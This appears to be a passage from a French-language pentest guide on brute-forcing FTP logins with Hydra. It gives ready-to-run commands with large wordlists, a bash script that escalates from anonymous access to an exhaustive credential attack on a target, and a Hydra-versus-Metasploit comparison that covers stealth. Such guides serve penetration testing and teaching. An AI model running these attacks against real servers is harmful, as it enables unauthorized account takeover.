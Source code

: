 ### Exemples complets avec wordlists personnalisées

#### Brute force rapide avec wordlists courtes
```bash
# Test rapide avec credentials courants
hydra -L users_ftp.txt -P passwords_ftp.txt -t 16 -f -o ftp_creds.txt ftp://target

# Vérifier les résultats
cat ftp_creds.txt
```

#### Brute force exhaustif
```bash
# Test exhaustif avec grandes wordlists
hydra -L /usr/share/seclists/Usernames/Names/names.txt \
      -P /usr/share/wordlists/rockyou.txt \
      -t 32 -f -v -o ftp_results.txt ftp://target

# Sauvegarder dans un fichier de log
hydra -L users.txt -P passwords.txt -t 16 -f -V ftp://target | tee hydra_ftp.log
```

### Combinaison Hydra + Scripts post-découverte

```bash
#!/bin/bash
TARGET=$1

echo "[+] Starting FTP brute force on $TARGET"

# 1. Test anonymous d'abord
echo "[*] Testing anonymous access..."
hydra -l anonymous -p "" -t 1 ftp://$TARGET

# 2. Test credentials courants
echo "[*] Testing common credentials..."
hydra -L users_ftp.txt -P passwords_ftp.txt -t 16 -f -v ftp://$TARGET

# 3. Si échec, brute force plus approfondi
echo "[*] Extended brute force..."
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
      -P /usr/share/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt \
      -t 16 -f -V ftp://$TARGET

echo "[+] Brute force completed"
```

### Comparaison Hydra vs Metasploit FTP brute force

| Aspect | Hydra | Metasploit |
|--------|--------|------------|
| **Vitesse** | Très rapide | Plus lent |
| **Flexibilité** | Wordlists custom faciles | Wordlists intégrées |
| **Output** | Format texte simple | Intégration base MSF |
| **Stealth** | Options de timing | Moins d'options |
| **Simplicité** | Commande directe | Setup module requis |
